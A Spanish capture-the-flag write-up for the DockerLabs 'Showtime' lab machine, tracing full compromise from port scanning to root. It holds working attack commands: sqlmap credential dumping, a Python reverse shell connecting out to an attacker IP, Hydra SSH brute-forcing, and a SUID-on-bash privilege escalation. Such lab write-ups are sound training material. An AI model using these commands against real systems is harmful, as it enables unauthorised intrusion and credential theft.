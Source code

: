 # Showtime

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Balulero`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

Tenemos dos puertos abiertos, el 22 y el 80.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_1.jpg)    

Abrimos la página web y en la página de inicio no encontramos nada interesante.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_2.jpg)     

Vemos que hay un enlace de inicio de sesión, lo abrimos y encontramos un panel de autenticación.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_3.jpg)    

Utilizaremos la herramienta sqlmap para intentar extraer nombres de usuario y contraseñas.  
Ejecutaremos el siguiente comando:  

`sudo sqlmap -u http://172.17.0.2/login_page/index.php --forms --dbs --batch`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_4.jpg)    

Ahora ingresamos el siguiente comando:  

`sudo sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users --tables --batch`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_5.jpg)      

Continuamos con la enumeración ingresando:  

`sudo sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios --columns --batch`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_6.jpg)     

Y por último:  

`sudo sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios -C username,password -dump --batch`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_7.jpg)      

¡Perfecto!  
Tenemos tres usuarios junto con sus respectivas contraseñas.  

Intentamos iniciar sesión, pero solo con el usuario 'joe' podemos acceder a un panel que nos permite ejecutar comandos en Python.    

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_8.jpg)       

Ahora verificamos si funciona.   
Ejecutamos el siguiente comando:  

```
import os  
os.system ("ls")
```
![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_9.jpg)    

Perfecto, parece que funciona.  
Ahora, lo que podemos intentar hacer es establecer una reverse shell hacia nuestra máquina Kali.  
Nos pondremos a la escucha en el puerto 6969 de nuestra Kali y ejecutaremos el comando `nc -lvnp 6969`.  
A continuación, ejecutaremos este código en el panel:   

```
import socket
import os
import subprocess

# Configura l'IP e la porta di destinazione
ip = "10.10.10.10"
port = 6969

# Crea il socket e connettiti al server
s = socket.socket()
s.connect((ip, port))

# Reindirizza stdin, stdout, stderr al socket
os.dup2(s.fileno(), 0)  # stdin
os.dup2(s.fileno(), 1)  # stdout
os.dup2(s.fileno(), 2)  # stderr

# Esegui la shell
subprocess.call("/bin/sh")
```
![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_10.jpg)    

¡Perfecto!   
Hemos obtenido una reverse shell.  
Ahora aplicamos un tratamiento para poder trabajar de manera más cómoda.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_11.jpg)  

Intentamos ejecutar los comandos típicos para escalar privilegios, pero no encontramos nada interesante.   

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_12.jpg)   

Entonces subimos el archivo `linpeas.sh` a la máquina víctima.  
Para ello, montamos un servidor HTTP en nuestra máquina Kali con el comando:    
`sudo python3 -m http.server`, y posteriormente descargamos el archivo en la máquina víctima.   
Le damos permisos de ejecución con el comando `chmod +x` y lo ejecutamos.  
Al analizar todo, vemos que hay un archivo oculto en la carpeta `/tmp` que se llama **.hidden_text.txt**.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_13.jpg)    

Lo abrimos y vemos que contiene una serie de palabras, todas en mayúsculas.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_14.jpg)   

Jugando con la imaginación, podemos pensar que esto podría ser un listado de posibles contraseñas.   
Intentamos crear un diccionario, pero con Hydra no logramos obtener la contraseña.  
Otra cosa que podemos hacer es convertir con **tr** todas las palabras de mayúsculas a minúsculas.  
Para ello, utilizamos el siguiente comando:  

`cat pass.txt | tr '[:upper:]' '[:lower:]' > password.txt`  

Ahora intentamos nuevamente con Hydra para ver si conseguimos algo que nos pueda ser útil.  
Ejecutamos el siguiente comando:   

`sudo hydra -L users.txt -P password.txt ssh://172.17.0.2/`  y listo, conseguimos una contraseña válida para el usuario 'joe'.    

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_15.jpg)     

Ahora nos conectamos con el usuario 'joe' y ejecutamos el siguiente comando:  

`sudo -l`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_16.jpg)     

Consultamos GTFOBins para ver si podemos aprovechar este binario y parece que sí.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_17.jpg)      

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_18.jpg)    

Perfecto, ya hemos logrado escalar a otro usuario.   
Ejecutamos nuevamente el comando `sudo -l`.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_19.jpg)     

Echamos un vistazo al script en la carpeta de luciano.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_20.jpg)      

De acuerdo, lo que haremos será modificarlo para poder escalar a root.  
Observamos que no podemos utilizar ni el editor nano ni vim.  
Por lo tanto, utilizaremos el comando **echo**.   
Ejecutaremos el siguiente comando:   

`echo -e '#!/bin/bash \n chmod u+s /bin/bash' > .script.sh`  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_21.jpg)    

"Perfecto, ahora ejecutaremos el comando `sudo /bin/bash /home/luciano/script.sh` y luego el comando `bash -p`.  
¡Y listo! Ahora somos root.  

![ST](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/showtime/ST_22.jpg)    













